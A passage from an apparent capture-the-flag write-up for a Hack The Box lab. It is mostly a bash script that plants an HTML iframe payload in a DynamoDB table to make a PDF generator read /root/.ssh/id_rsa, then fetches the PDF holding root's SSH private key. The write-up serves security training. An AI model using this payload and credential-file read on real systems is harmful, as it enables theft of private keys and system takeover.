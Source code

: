 >**NOTE:** The final line that curls to download the PDF assumes that we have an active Chisel tunnel and the script is being run from our attacking machine. It is entirely possible to run this script from the target machine while in the roy ssh session. You would then just need to copy the result.pdf to your attacking machine using something like scp.

``` bash
#!/bin/bash

echo "Creating 'alerts' table:"
aws dynamodb create-table \
   --table-name alerts \
   --attribute-definitions \
      AttributeName=title,AttributeType=S \
      AttributeName=data,AttributeType=S \
   --key-schema \
      AttributeName=title,KeyType=HASH \
      AttributeName=data,KeyType=RANGE \
   --provisioned-throughput \
      ReadCapacityUnits=10,WriteCapacityUnits=5 \
   --endpoint-url http://s3.bucket.htb

sleep 2

echo "Listing tables:"
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb

echo "Adding record:"
aws dynamodb put-item \
   --table-name alerts \
   --item '{
       "title": {"S": "Ransomware"}, 
       "data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}
     }' \
   --return-consumed-capacity TOTAL \
   --endpoint-url http://s3.bucket.htb

sleep 2

echo "Listing records:"
aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb

echo "Sending POST request:"
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000

echo "Downloading result.pdf:"
curl http://127.0.0.1:8000/files/result.pdf -o ./result.pdf
```

Awesome! The script finishes and we now have the result.pdf in our working directory. When we open it, we can see that it successfully extracted the root users ssh private key.
